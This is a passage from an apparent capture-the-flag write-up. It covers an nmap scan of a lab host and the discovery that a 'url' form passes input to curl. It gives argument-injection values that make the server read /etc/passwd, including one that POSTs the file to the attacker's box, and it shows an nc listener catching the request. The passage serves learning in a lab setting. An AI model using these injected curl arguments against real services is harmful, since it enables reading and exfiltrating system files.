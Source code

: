 ```
Nmap scan report for 10.10.68.39
Host is up (0.089s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.14 seconds
```

There's nothing interesting found by fuzzing directories. The website has `url` input form

![](1.png)

## User
If we supply url of web server hosted on our attack box, we get a hit

![](2.png)

![](3.png)

Let's test for `LFI`. Supplying just `file:///etc/passwd` will not work due to filtering. Receiving request with `nc` shows that it's a `curl`
```
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.8.4.147] from (UNKNOWN) [10.10.68.39] 34222
GET / HTTP/1.1
Host: 10.8.4.147
User-Agent: curl/7.81.0
Accept: */*

```

Sending `http://<IP> -h`, will show `curl`'s help menu

![](4.png)

There are multiple ways to use it, we can use `file://` or use parameter argument to send local files to our attack box:
- `http://<IP/Host> file:///etc/passwd`
- `http://<Attack Box>/ -X POST -F 'files=@/etc/passwd'`

Let's use first approach
